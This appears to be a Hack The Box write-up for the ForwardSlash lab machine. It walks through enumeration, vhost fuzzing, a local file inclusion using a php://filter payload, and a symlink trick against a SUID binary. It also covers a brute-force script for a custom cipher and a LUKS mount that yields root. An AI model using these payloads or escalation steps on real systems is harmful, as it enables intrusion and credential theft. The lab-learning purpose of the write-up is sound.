

## nmap
nmap -sC -sV 10.10.10.183
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-04 15:12 EDT
Nmap scan report for forwardslash.htb (10.10.10.183)
Host is up (0.45s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE    VERSION
22/tcp open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 3c:3b:eb:54:96:81:1d:da:d7:96:c7:0f:b4:7e:e1:cf (RSA)
|   256 f6:b3:5f:a2:59:e3:1e:57:35:36:c3:fe:5e:3d:1f:66 (ECDSA)
|_  256 1b:de:b8:07:35:e8:18:2c:19:d8:cc:dd:77:9c:f2:5e (ED25519)
80/tcp open  tcpwrapped
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Backslash Gang
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.39 seconds
```

10.10.10.183 gives 302 redirect to http://forwardslash.htb   
and the index.php page doesn't contain any links  



## gobuster
after a lot of fuzzing tries i found /note.txt  
gobuster also found /server-status directory but it gave a 403
```
/index.php (Status: 200)
/note.txt (Status: 200)
/server-status/ (Status: 403)
```



## /etc/hosts
so to find the backup I used gobuster with lots of extensions but didn't found anything else  
then I tried "backup.forwardslash.htb" but it didn't worked because it was not added in /etc/hosts  
after adding "backup.forwardslash.htb" in /etc/hosts file, I was able to access it



## ffuf
rather than guessing the sub-domain backup we can use ffuf or wfuzz to bruteforce it  
```
/opt/ffuf_1.0.1_linux_amd64/ffuf -H 'Host: FUZZ.forwardslash.htb' -u http://10.10.10.183 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 0
```

HTTP 1.1 requests often include a Host: header, which contains the hostname from the client request.   
This is because a server may use a single IP address or interface to accept requests for multiple DNS hostnames.   
The Host: header identifies the server requested by the client.  
Here the request for both the DNS hostnames backup.forwardslash.htb and forwardslash.htb goes to the save server because that machine is using **Virtual Host Routing**  

backup.forwardslash.htb gives us a login page, register and login to get to /welcome.php  







## gobuster
although we got backup.forwardslash.htb which contains login and registration page  
but its always good to enumerate to find something new
```
/root/go/bin/gobuster dir -u backup.forwardslash.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
```
```
/register.php (Status: 200)
/login.php (Status: 200)
/index.php (Status: 302)
/welcome.php (Status: 302)
/dev (Status: 301)
/api.php (Status: 200)
/environment.php (Status: 302)
/logout.php (Status: 302)
/config.php (Status: 200)
```

visiting "/dev/index.php" gives 403 Access Denied  
it says access denied from my IP so probably /dev/ can only be accessed from localhost



## Local File Inclusion
backup sub-domain gives us a login page, we can register and login  
after login we have an option to change profile picture which looks very interesting  
because it has URL field and it is disabled



we can try to send request by removing the "disabled" option from the form fields  
I intercepted the request to /profilepicture.php in burp and tried a few different URL   
we know that it displays the file from URL on the webpage   
so I tried "file:///etc/passwd" and it worked, so we have LFI  





we can now read /dev/index.php using LFI because it does an internal call i.e from localhost  
the standard payload for LFI using "php://filter" also works here  
we can't use "file://" because we don't know the absolute path of /dev/ but with "php://filter" absolute path is not required  
```
php://filter/convert.base64-encode/resource=dev/index.php
```

I base64 decoded that output and saved it as dev_index.php  
there was one password in plaintext in the php file



and I was able to SSH as chiv using this password --> 'N0bodyL1kesBack/'

## suid binary
chiv doesn't have user.txt so we need to escalate to user pain  
"sudo -l" revealed that chiv is not a sudoer  
i found a suid binary whose owner was pain so this is probably the way to escalate  



i downloaded the binary and analyzed it using IDA  
so basically it just reads the content of a file whose name is md5sum of the current time HH:MM:SS  
rather than using IDA i could have also used ltrace to figure this out


i also found a config file "/var/backups/config.php.bak" owned by pain  







from the note.txt file found in /var/backups we know that config.php.bak has a password so we need to read it somehow  

## soft link
so i knew that we need to use suid backup binary to read the config.php.bak file  
but initially i was only able to create a file that backup binary can read using this bash command  
and i could not figure out a way to read config file because we don't have permission to copy the file to md5sum name  
```
echo "something" > $(date | cut -d ' ' -f 4 | tr -d '\n' | md5sum | cut -d ' ' -f 1); /usr/bin/backup
```



and then I remembered about soft links   
so we can just create a soft link with md5sum name that points to the config file  
for some reason this only worked in the chiv's home directory  
```
ln -s /var/backups/config.php.bak $(date | cut -d ' ' -f 4 | tr -d '\n' | md5sum | cut -d ' ' -f 1); /usr/bin/backup
```



so I got pain's password for mysql login --> 'db1f73a72678e857d91e71d2963a1afa9efbabb32164cc1d94dbc704'   
but I was not able to open mysql using these creds



then I tried to switch user using the same password and it was successful  



# privEsc
## crypto





encrypter.py contains the following encrypt and decrypt functions
```py
def encrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in key:
        for i in range(len(msg)):
            if i == 0:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[-1])
            else:
                tmp = ord(msg[i]) + ord(char_key) + ord(msg[i-1])

            while tmp > 255:
                tmp -= 256
            msg[i] = chr(tmp)
    return ''.join(msg)

def decrypt(key, msg):
    key = list(key)
    msg = list(msg)
    for char_key in reversed(key):
        for i in reversed(range(len(msg))):
            if i == 0:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
            else:
                tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
            while tmp < 0:
                tmp += 256
            msg[i] = chr(tmp)
    return ''.join(msg)


print encrypt('REDACTED', 'REDACTED')
print decrypt('REDACTED', encrypt('REDACTED', 'REDACTED'))
```

I tried a lot but could not find a way to reproduce the key   
so I just wrote bruteForce.py which used rockyou.txt to decrypt the ciphertext   
it checks if the decrypted text contain words like key, pass, the etc. to know if the key is correct or not  

```py
def decrypt(key, msg):
	key = list(key)
	msg = list(msg)
	for char_key in reversed(key):
		for i in reversed(range(len(msg))):
			if i == 0:
				tmp = ord(msg[i]) - (ord(char_key) + ord(msg[-1]))
			else:
				tmp = ord(msg[i]) - (ord(char_key) + ord(msg[i-1]))
			while tmp < 0:
				tmp += 256
			msg[i] = chr(tmp)
	return ''.join(msg)

c = open('encryptorinator/ciphertext','r')
ciphertext = c.read()

f = open('/usr/share/wordlists/rockyou.txt','rb')
passwords = f.readlines()

wordsInMsg = ['pass', 'crypto', 'message', 'key', 'Key', 'the', 'The']

for p in passwords:
	passwd = p[:-1]
	plaintext = decrypt(passwd,ciphertext)
	flag = 0
	for i in wordsInMsg:
		if i in plaintext:
			print(passwd)
			print(plaintext)
			flag = 1
			break
	if flag == 1:
		break
```



the decrypted ciphertext gave us the key for encrypted image in /var/backups/recovery/ --> cB!6%sdH8Lj^@Y*$C2cf



its a "LUKS encrypted file", I searched how to decrypt it and this result was useful     
https://askubuntu.com/questions/63594/mount-encrypted-volumes-from-command-line  



mount is usually only allowed to run as root so i did "sudo -l" to see the commands that pain can run as root  



finally i used the following commands to decrypt and mount the LUKS encrypted file
```bash
sudo /sbin/cryptsetup luksOpen encrypted_backup.img backup
mkdir mnt
sudo /bin/mount /dev/mapper/backup ./mnt/
```



we can now use this id_rsa to ssh as root  






